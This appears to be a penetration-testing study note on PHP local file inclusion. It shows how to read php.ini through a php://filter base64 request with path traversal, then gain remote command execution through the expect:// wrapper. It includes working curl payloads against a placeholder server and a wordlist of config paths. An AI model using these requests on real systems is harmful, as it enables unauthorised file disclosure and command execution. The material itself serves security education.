

Expect Wrapper Attack
Expect Wrapper
The
expect wrapper, which allows us to directly run commands through URL streams.
Expect Wrapper is very similarly to the web shells used with
Data and
Input wrapper, but don't need to provide a web shell, as it is designed to execute commands.
However,
Expect is an external wrapper, so it needs
to be manually installed and enabled on the back-end server, so we may find it in specific cases.
1. Read PHP Configurations through “PHP Source Code Disclosure”Server Configuration wordlist for linux:
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux that include also PHP configurations file.
• To get only php.ini files:
wget https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux; cat LFI-WordList-Linux | grep 'php.ini'
/apache/php/php.ini
/bin/php.ini
/etc/httpd/php.ini
/etc/php.ini
/etc/php/apache/php.ini
/etc/php/apache2/php.ini
/etc/php/cgi/php.ini
/etc/php/php.ini
/etc/php/php4/php.ini
/etc/php4.4/fcgi/php.ini
/etc/php4/apache/php.ini
/etc/php4/apache2/php.ini
/etc/php4/cgi/php.ini
/etc/php5/apache/php.ini
/etc/php5/apache2/php.ini
/etc/php5/cgi/php.ini
/home/bin/stable/apache/php.ini
/home2/bin/stable/apache/php.ini
/NetServer/bin/stable/apache/php.ini
/opt/xampp/etc/php.ini
/php/php.ini
/php4/php.ini
/php5/php.ini
/usr/lib/php.ini
/usr/lib/php/php.ini
/usr/local/apache/conf/php.ini
/usr/local/etc/php.ini
/usr/local/lib/php.ini
/usr/local/php/lib/php.ini
/usr/local/php4/lib/php.ini
/usr/local/php5/lib/php.ini
/usr/local/psa/admin/conf/php.ini
/usr/local/Zend/etc/php.ini
/var/local/www/conf/php.ini
/web/conf/php.ini
• PHP configurations file can be found in:
◇ Apache → /etc/php/X.Y/apache2/php.ini
◇ Nginx → /etc/php/X.Y/fpm/php.ini
*where X.Y is the PHP version of the webapp
where the PHP version available are:
8.1
8.0
7.4
7.3
7.2
7.1
7.0
5.6
5.5
5.4
5.3
5.2
5.1
5.0
4.4
4.3
4.2
4.1
4.0
Since .ini files are similar to PHP files we can use the same method used in
PHP Source Code Disclosure$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
Once we have the base64 encoded string, we can decode it and
grep for
expect (NOT
INSTALLED by default) and we should get:
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
OR
cat encoded.txt | base64 -d | grep -E 'allow_url_include|expect'
extension=expect This mean that the
extension configuration keyword is used to enable the
expect module
2. Remote Code ExecutionTo use the expect module, we can use the
expect:// wrapper and then pass the command we want to execute, as follows:
$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
Executing commands through the
expect module is fairly straightforward, as this module was designed for command execution,
It is also possible use
expect module with XXE vulnerabilities